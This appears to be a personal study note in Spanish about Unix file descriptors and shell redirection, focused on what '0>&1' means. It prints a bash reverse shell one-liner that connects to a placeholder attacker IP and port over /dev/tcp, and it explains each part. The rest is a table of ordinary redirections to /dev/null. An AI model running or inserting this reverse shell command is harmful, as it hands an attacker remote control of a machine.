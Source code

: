 Vamos a profundizar en el significado de `0>&1` y cómo funciona en el contexto de redirección de flujos en la terminal.

---

### Redirección de Flujos en la Terminal

En sistemas Unix/Linux, los flujos de entrada y salida están representados por **descriptores de archivo** (file descriptors). Los más comunes son:

- **0**: Representa la **entrada estándar** (`stdin`).
- **1**: Representa la **salida estándar** (`stdout`).
- **2**: Representa la **salida de error estándar** (`stderr`).

---

### ¿Qué significa `0>&1`?

El comando `0>&1` redirige el **descriptor de archivo 0** (`stdin`) al **descriptor de archivo 1** (`stdout`). En otras palabras, está diciendo: "Toma la entrada estándar y redirígela a la salida estándar".

#### ¿Cómo funciona esto en la práctica?

1. **`0>`**: Indica que vamos a redirigir el descriptor de archivo `0` (`stdin`).
2. **`&1`**: Especifica que la redirección debe apuntar al descriptor de archivo `1` (`stdout`).

En el contexto de una **reverse shell**, como en el comando:

```bash
bash -c "bash -i >& /dev/tcp/[ip_atacante]/[puerto] 0>&1"
```

- **`>& /dev/tcp/[ip_atacante]/[puerto]`**: Redirige tanto `stdout` como `stderr` a la conexión TCP.
- **`0>&1`**: Redirige `stdin` a `stdout`, lo que significa que la entrada de la shell (lo que el atacante escribe) también se enviará a través de la conexión TCP.

---

### Comparación con otros redireccionamientos

| Comando                     | Explicación                                                                 |
|-----------------------------|-----------------------------------------------------------------------------|
| `<comando> 2>/dev/null`     | Redirige solo los errores (`stderr`) al "basurero" (`/dev/null`).           |
| `<comando> >/dev/null`      | Redirige solo la salida estándar (`stdout`) al "basurero" (`/dev/null`).    |
| `<comando> >/dev/null 2>&1` | Redirige tanto `stdout` como `stderr` al "basurero".                        |
| `<comando> &>/dev/null`     | Forma abreviada de redirigir tanto `stdout` como `stderr` al "basurero".    |
| `<comando> 0>&1`            | Redirige la entrada estándar (`stdin`) a la salida estándar (`stdout`).     |


----


 `<comando> 2` -> 2 hace referencia a `stderr` *standard errors* 
- `<comando> 2>/dev/null` -> Mandando todos los errores al [[Basurero]]

 `<comando> >` -> > hace referencia a `stdout` *standard out* 
- `<comando> >/dev/null` -> Mandando todos los outs al [[Basurero]]

- `<comando> > /dev/null 2>&1`  -> Mandando el output al Basurero pero tambien con `2>&1` convertis los `stderr` a `stdout`

- `<comando> &> /dev/null`  -> Mandar al Basurero tanto `stderr` como `stdout`




-----